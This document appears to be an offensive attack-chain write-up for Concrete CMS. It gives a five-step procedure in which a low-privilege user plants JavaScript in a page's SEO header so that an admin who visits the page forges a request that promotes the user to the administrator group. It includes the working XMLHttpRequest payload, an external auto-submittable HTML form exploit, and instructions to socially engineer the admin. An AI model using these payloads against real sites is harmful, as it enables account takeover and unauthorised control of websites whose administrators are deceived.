

# CSRF Exploitation in Concrete CMS for Admin Privilege Escalation

Multi-stage attack chain demonstrating a complete CSRF workflow in Concrete CMS, where an attacker with limited access injects JavaScript into a page header to forge requests that elevate user privileges when an admin visits the page.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses built-in CMS features and browser JavaScript)

### Target Environment

- Concrete CMS (versions vulnerable to CVE-2017-7210 or similar)
- Web platform with PHP backend
- Admin dashboard access for initial setup

### Initial Access Requirements

- Low-privilege user account with edit permissions on pages
- Ability to create pages and modify SEO settings
- Admin user who can be social-engineered to visit the page

## Detailed Attack Procedures

### Step 1: Create Blog Page with Edit Permissions
procedure: [[procedures/Create-Blog-Page-with-Edit-Permissions]]

**Objective**: Establish a page that a non-admin user can modify to inject malicious content, setting up the vector for CSRF exploitation.

**Instructions**: Log in as an administrator via the Concrete CMS dashboard. Navigate to the Pages section, create a new blog page, and in the page settings under Permissions, grant write/edit access to the target non-admin user (e.g., user ID 8).

**Expected Output**: New blog page created with permissions updated; non-admin user can now edit the page.

**Success Indicators**:
- Page appears in dashboard
- Non-admin login confirms edit access

### Step 2: Inject Malicious JavaScript into Page Header
procedure: [[procedures/Inject-Malicious-JavaScript-into-Page-Header]]

**Objective**: Embed JavaScript in the page's SEO Extra Header Content to send forged POST requests exploiting the CSRF-vulnerable endpoints.

**Instructions**: As the non-admin user, edit the page and access the SEO & Statistics module. In the 'Extra Header Content' section, inject the following JavaScript using [[commands/xmlhttprequest-csrf-add-group]]:

```javascript
var XHR = new XMLHttpRequest(); var urlEncodedData = ''; var urlEncodedDataPairs = []; var name; var data = {gID:'3', uID:'8'}; for(name in data) { urlEncodedDataPairs.push(encodeURIComponent(name) + '=' + encodeURIComponent(data[name])); } urlEncodedData = urlEncodedDataPairs.join('&').replace(/%20/g, '+'); XHR.addEventListener('load', function(event){}); XHR.addEventListener('error', function(event){}); XHR.open('POST', 'http://<<site>>/concrete5/index.php/ccm/system/user/add_group'); XHR.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); XHR.setRequestHeader('Content-Length', urlEncodedData.length); XHR.send(urlEncodedData);
```

Replace `<<site>>` with the target domain, `gID: '3'` for admin group, and `uID: '8'` for the user to promote. This script executes on page load.

**Expected Output**: JavaScript saved in header; no visible changes to page content.

**Success Indicators**:
- Script visible in page source under SEO header
- No errors on save

### Step 3: Save and Publish Compromised Page
procedure: [[procedures/Save-and-Publish-Compromised-Page]]

**Objective**: Make the malicious JavaScript live so it executes when the page is visited.

**Instructions**: In the page editor, save the changes and publish the page. Ensure the page is accessible to administrators.

**Expected Output**: Page published successfully; JavaScript now embedded in the header for all visitors.

**Success Indicators**:
- Page status shows 'Published'
- Preview loads without errors

### Step 4: Trigger CSRF via Admin Page Visit
procedure: [[procedures/Trigger-CSRF-via-Admin-Page-Visit]]

**Objective**: Lure or wait for an admin to visit the page, executing the CSRF to add the non-admin to the admin group.

**Instructions**: Social-engineer the admin to browse to the compromised page (e.g., via email link). Upon load, the JavaScript triggers the POST to `/index.php/ccm/system/user/add_group`, forging the request using the admin's session.

**Expected Output**: Silent execution; check user groups in dashboard to confirm elevation (user 8 now in group 3).

**Success Indicators**:
- Non-admin user gains admin privileges on next login
- No alerts or blocks from CMS

### Step 5: Alternative External HTML Form Exploitation
procedure: [[procedures/Alternative-External-HTML-Form-Exploitation]]

**Objective**: Use an external site to host a form that submits the CSRF when an admin interacts, bypassing need for page access.

**Instructions**: Host the following HTML on an external server using [[commands/html-form-csrf-add-group]]:

```html
<form action="http://www.jmpalktest.com/concrete5742/index.php/ccm/system/user/add_group" method="post"><input type="hidden" name="gID" value="3" /> <input type="hidden" name="uID" value="6" /> <button type="submit">Csrf your site here!</button></form>
```

Trick the admin into visiting and submitting the form. For auto-submit, add JavaScript to trigger on load.

**Expected Output**: Form submission adds user to group; confirm in CMS dashboard.

**Success Indicators**:
- User group membership updated
- Admin unaware of the forged request

## Attack Chain Summary

### Key Achievements

1. Compromised legitimate CMS page to host payload
2. Forged admin-authenticated requests via CSRF
3. Elevated non-admin to full site control
4. Demonstrated both internal and external exploitation vectors

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise
- [[JavaScript]] JavaScript
- [[Exploitation for Privilege Escalation]] Exploitation for Privilege Escalation

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Privilege Escalation]] Privilege Escalation

---

*Last updated: 2023-10-01T00:00:00Z*
